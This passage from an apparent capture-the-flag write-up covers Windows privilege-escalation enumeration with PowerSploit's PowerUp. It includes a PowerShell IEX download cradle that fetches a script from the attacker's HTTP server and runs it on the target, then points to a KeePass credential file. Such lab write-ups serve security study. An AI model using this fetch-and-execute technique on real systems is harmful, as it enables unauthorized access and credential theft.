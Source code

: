 ### 4.1 Host Enumeration & KeePass Discovery
I used `PowerUp.ps1` from PowerSploit to automate privilege escalation checks.

1. **Download and Execute PowerUp:**

    ```bash
    git clone https://github.com/PowerShellMafia/PowerSploit.git -b dev
    ```
    Copy the `PowerUp.ps1` from the `privesc`  Directory and set a http server then download it to the target.
    
    ```bash
    # Setting the python3 sampleHttpServer
    python3 -m http.server 8000
    
    ## Copy the PowerUp.ps1 to the target machine with the already user access using the IEX WebClient
    IEX(New-Object Net.WebClient).downloadString('http://10.10.16.16:8000/PowerUp.ps1')
    ```
    After run the Command at the bottom of the script `Invokde-AllChecks`
    ![](images/2025-02-09_5.png)


2. **Discover KeePass File:** Manual enumeration of the `Documents` folder under the `kohsuke` user revealed a KeePass database file (`CEH.kdbx`), suggesting stored credentials might be present.  
    ![](images/2025-02-09_6.png)
